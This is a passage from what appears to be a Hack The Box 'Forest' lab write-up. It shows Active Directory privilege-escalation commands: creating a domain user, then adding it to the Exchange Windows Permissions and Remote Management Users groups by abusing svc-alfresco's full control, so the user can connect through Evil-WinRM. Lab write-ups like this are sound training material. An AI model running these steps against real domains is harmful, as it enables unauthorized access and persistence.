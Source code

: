 ```bash
net user username password /add /domain
```

![26](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/26.png){:class="blog-image" onclick="expandImage(this)"}

The next step is to add the newly created user to the _Exchange Windows Permissions_ group, taking advantage of the full control that `svc-alfresco` full control has over this group:

```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members "username"
```

We will also add this user to the _Remote Management Users_ group so that it can connect via `Evil-WinRM`:

```powershell
Add-ADGroupMember -Identity "Remote Management Users" -Members "username"
```

![27](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/27.png){:class="blog-image" onclick="expandImage(this)"}
